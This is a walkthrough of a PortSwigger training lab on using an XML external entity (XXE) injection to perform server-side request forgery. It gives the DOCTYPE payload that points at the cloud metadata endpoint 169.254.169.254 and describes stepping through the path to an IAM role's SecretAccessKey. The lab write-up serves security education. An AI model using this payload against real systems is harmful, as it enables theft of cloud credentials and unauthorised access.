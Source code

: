 ## Exploiting XXE to perform SSRF attacks

## Solution

Visit a product page, click "Check stock", and intercept the resulting POST request in Burp Suite.

<img width="1190" alt="image" src="https://github.com/SantoshKumarP1412/PortSwigger/assets/140537888/4f62988f-ff75-4a26-bab6-052b10e85eef">

Insert the following external entity definition in between the XML declaration and the stockCheck element:

```<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest"> ]>```

<img width="1439" alt="image" src="https://github.com/SantoshKumarP1412/PortSwigger/assets/140537888/e9d34c4c-d938-4ed3-ada6-f269b1faa439">

Replace the productId number with a reference to the external entity:

```&xxe;```

<img width="1439" alt="image" src="https://github.com/SantoshKumarP1412/PortSwigger/assets/140537888/900418eb-155b-4e8a-bd4c-35066389c1f3">

The response should contain "Invalid product ID:" followed by the response from the metadata endpoint, which will initially be a folder name.

<img width="1437" alt="image" src="https://github.com/SantoshKumarP1412/PortSwigger/assets/140537888/8069934a-0431-4ecb-8372-6e9f032fcf82">

Iteratively update the URL in the DTD to explore the API until you reach /latest/meta-data/iam/security-credentials/admin. This should return JSON containing the SecretAccessKey.

<img width="1439" alt="image" src="https://github.com/SantoshKumarP1412/PortSwigger/assets/140537888/40da6d26-a73a-4f23-8bf6-92da0a928dd0">

<img width="1439" alt="image" src="https://github.com/SantoshKumarP1412/PortSwigger/assets/140537888/0149aa8e-caa5-4b76-bb0c-836656196c20">




